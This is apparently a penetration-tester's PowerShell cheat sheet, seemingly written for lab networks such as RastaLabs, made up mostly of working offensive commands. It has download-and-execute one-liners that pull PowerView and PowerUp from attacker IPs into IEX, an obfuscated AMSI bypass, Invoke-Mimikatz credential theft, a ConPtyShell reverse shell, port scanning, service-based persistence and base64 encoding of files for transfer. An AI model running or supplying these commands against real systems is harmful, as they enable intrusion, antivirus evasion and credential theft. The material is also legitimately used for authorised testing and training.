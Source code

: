* https://github.com/samratashok/nishang

```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass
```

* PS-Run with output
```
& .\hidden-test.exe 2>&1
```
* from ps-shell
```
Start-Process notepad.exe
```

## PSRemoting
```
Enter-PSSession -ComputerName WS05.RASTALABS.LOCAL -Credential RASTALABS.LOCAL\NGODFREY
```
```
(new-object system.net.webclient).downloadstring('http://192.168.99.2/powerview.ps1') | IEX
invoke-webrequest http://10.10.16.29:8080/dazzleUP.exe -outfile dazzleUP.exe
invoke-webrequest http://10.10.16.14:8080/hidden-test.exe -outfile C:\windows\temp\test.exe
```
## Port Scan
```
80,8080,445,139,135,3389,1433,5985,47001 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“10.10.16.29”,$_)) “Port $_ is open!”} 2>$null
```

## Test AV
```
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
Invoke-Mimikatz
```
## Create service
```
New-Service -Name "gruntsvc" -BinaryPathName '"C:\WINDOWS\System32\svchost.exe -k netsvcs"'
Start-Service -Name 'gruntsvc'
Stop-Service -Name 'gruntsvc'
Restart-Service -Name 'gruntsvc'
$service = Get-WmiObject -Class Win32_Service -Filter "Name='gruntsvc'"
$service.delete()
```

## read/write
```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
Get-Content -Path 'C:\Demo\test.txt' -Encoding Byte
```
```
$a = [IO.File]::ReadAllText("C:\Users\John\Desktop\test.txt")
[system.Convert]::toBase64string([System.text.encoding]::Unicode.getbytes($a))
```
```
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b))
[System.IO.File]::WriteAllText("Z:\backup\PTA\CRTE\tgt-sqladmin",$b)
```
```
$filename = "C:\tools\donut\loader.bin"
[system.Convert]::toBase64string([IO.File]::ReadAllBytes($filename)) | Clip
```


## AMSI
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

## PS -- need admin
```
Get-Process | Format-Table Id,Username,Name,si,FileName -AutoSize
```

## Applocker
```
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## From service name to display name
```
powerpick Get-Service –Name "MSSQL*"
```
## DownloadExec
```
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUp.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUpSQL.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/Find-PSRemotingLocalAdminAccess.ps1')) | iex 
```

## Net Version
```
get-childitem -path "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

## Formating
```
Format-List *
```

## which
```
get-command
```

## if x64
```
[Environment]::Is64BitProcess
```

